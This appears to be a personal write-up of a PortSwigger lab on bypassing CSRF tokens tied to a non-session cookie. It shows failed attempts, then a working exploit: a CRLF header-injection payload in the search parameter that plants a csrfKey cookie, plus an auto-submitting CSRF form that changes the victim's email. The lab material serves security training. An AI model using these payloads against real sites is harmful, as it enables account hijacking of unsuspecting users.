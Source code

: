 
# CSRF where token is tied to non-session cookie

This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't fully integrated into the site's session handling system.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You have two accounts on the application that you can use to help design your attack. The credentials are as follows:

wiener:peter
carlos:montoya

Hint: You cannot register an email address that is already taken by another user. If you change your own email address while testing your exploit, make sure you use a different email address for the final exploit you deliver to the victim.

---------------------------------------------

References: 

- https://portswigger.net/web-security/csrf/bypassing-token-validation

- https://stackoverflow.com/questions/14573223/set-cookie-and-get-cookie-with-javascript

- https://learn.microsoft.com/en-us/troubleshoot/developer/webapps/iis/active-server-pages/xmlhttprequest-setrequestheader-method-cookies

- https://stackoverflow.com/questions/9713058/send-post-data-using-xmlhttprequest



![img](images/CSRF%20where%20token%20is%20tied%20to%20non-session%20cookie/1.png)

---------------------------------------------

First we change the email to test@test.com and find there are 2 cookies, one is “session” and the other is “csrfKey”:



![img](images/CSRF%20where%20token%20is%20tied%20to%20non-session%20cookie/2.png)


Then I found some code to set the value of a cookie (https://stackoverflow.com/questions/14573223/set-cookie-and-get-cookie-with-javascript):

```
function setCookie(name,value,days) {
    var expires = "";
    if (days) {
        var date = new Date();
        date.setTime(date.getTime() + (days*24*60*60*1000));
        expires = "; expires=" + date.toUTCString();
    }
    document.cookie = name + "=" + (value || "")  + expires + "; path=/";
}

setCookie('ppkcookie','testcookie',7);
```

In our case we would change the last line to:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  
		<script>
		function setCookie(name,value,days) {
			var expires = "";
			if (days) {
				var date = new Date();
				date.setTime(date.getTime() + (days*24*60*60*1000));
				expires = "; expires=" + date.toUTCString();
			}
			document.cookie = name + "=" + (value || "")  + expires + "; path=/";
		}

		setCookie('csrfKey','Eb67I1HyfMZGN1o9KZWih0EwODxdozMg',7);
		</script>
	
	    <form action="https://0a7900c3035d83b782ebb0de009400e0.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test2&#64;test&#46;com" />
      <input type="hidden" name="csrf" value="V99KDCadmiyH6AJ1jjXnlHyZxdfQtEkl" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

However this will not work because we need to set the Cookie header, not the cookies in the browser. We can use XHR (https://learn.microsoft.com/en-us/troubleshoot/developer/webapps/iis/active-server-pages/xmlhttprequest-setrequestheader-method-cookies). Then I will create a POST request in Javascript with XHR (https://stackoverflow.com/questions/9713058/send-post-data-using-xmlhttprequest):

```
<script>

var xhr = new XMLHttpRequest();
var url = "https://0a7900c3035d83b782ebb0de009400e0.web-security-academy.net";
xhr.open('POST', url+'/my-account/change-email', true);

xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
xhr.setRequestHeader('Cookie', 'TESTING');
xhr.setRequestHeader('Cookie', 'csrfKey=Eb67I1HyfMZGN1o9KZWih0EwODxdozMg');

xhr.onload = function () {
    // do something to response
    console.log(this.responseText);
};
xhr.send('email=test12&#64;test&#46;com&csrf=V99KDCadmiyH6AJ1jjXnlHyZxdfQtEkl');

</script>
```

But this does not work either.


Checking the application again, we find the search function adds a value in the Cookie HTTP header:



![img](images/CSRF%20where%20token%20is%20tied%20to%20non-session%20cookie/3.png)


It is added as LastSearchTerm:



![img](images/CSRF%20where%20token%20is%20tied%20to%20non-session%20cookie/4.png)


Following the official solution, it is necessary to use this payload:

```
/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None
```

- 0x0A is the newline character \n
- 0x0D is the return character \r
- Set-Cookie will change the value for the Cookie HTTP Header 


The img element will load the malicious URL and the submit the form generated by Burp:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
	  <form action="https://0a3a0029035a2e108071588100890067.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test12&#64;test&#46;com" />
      <input type="hidden" name="csrf" value="l0RRXoovjgxMasM34eeADEMkc24whrt3" />
      <input type="submit" value="Submit request" />
      </form>
      
      <img src='https://0a3a0029035a2e108071588100890067.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=tCFA5gCGZOqAwxhYizupPrZqP7jvVE8L%3b%20SameSite=None' onerror="document.forms[0].submit()" />

  </body>
</html>
```



![img](images/CSRF%20where%20token%20is%20tied%20to%20non-session%20cookie/5.png)
